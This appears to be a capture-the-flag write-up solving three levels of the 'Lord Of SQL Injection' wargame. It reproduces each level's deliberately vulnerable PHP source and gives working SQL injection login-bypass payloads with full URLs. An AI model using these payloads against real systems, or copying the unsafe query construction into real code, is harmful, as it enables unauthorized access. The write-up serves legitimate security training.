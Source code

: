 ## Lord Of SQL Injection

At [los.rubiya.kr](https://los.rubiya.kr/).

### Gremlin:

```php
Challenge:

query : select id from prob_gremlin where id='' and pw=''

<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

We just need to bypass the login with the simple `1' OR '1'='1`.

Final Url: `https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php/?id=1&pw=1%27%20OR%20%271%27=%271`

Human Readable `https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php/?id=1&pw=1' OR '1'='1`

Final Query: `select id from prob_gremlin where id='1' and pw='1' OR '1'='1'`

### Cobolt

```php
Challenge:

query : select id from prob_cobolt where id='' and pw=md5('')

<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

We just need to bypass the MD5 password check and login as admin. So we use a `#` to comment out the MD5 check.

Final URL: `https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin%27%20%23`

Human Readable: `https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin' #`

Final Query: `select id from prob_cobolt where id='admin' #' and pw=md5('')`

### Goblin

```php
Challenge:

query : select id from prob_goblin where id='guest' and no=

<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

Currently, we cannot edit the `id='guest'` before the `'no'` parameter, so we must focus on making the `SELECT` statement's first part evaluate to `false`, allowing us to inject whatever usernumber `no` into the second part of the statement.

Firstly, by adding `?no=1` to the url, we see the statement `Hello guest`.

This means that `id='guest' and no=1` has evaluated to `true`.
Thus, to make it evaluate to `false`, we simply change the end of the url to `?no=2`.

Then, the webpage returns to "normal" and we know that the first part of the statement has evaluated to `false`.

Next, to get the webpage to say "Hello Admin", since we know that number 1 is guest, we can try to add a `or no=2` after the earlier payload to evaluate false. 

Thus, the final payload is `?no=2 or no=2`.

Final URL: `https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=2%20OR%20no=2`

Human Readable: `https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=2 OR no=2`

Final Query: `select id from prob_goblin where (id='guest' and no=2) OR no=2`

### Thanks for Reading!

Have a bowl of udon and sashimi!

<img src="https://4.bp.blogspot.com/-s9haeFPrRc0/U5hUac1x-SI/AAAAAAAAhI4/Ob9UAm8_sMk/s400/bukkake_udon.png" width=200px>
<img src="https://4.bp.blogspot.com/-NHTUWbcy_Wc/VMIt3Ie-4BI/AAAAAAAAqzY/gkFCt304v4k/s400/sashimi_hamachi.png" width=150px>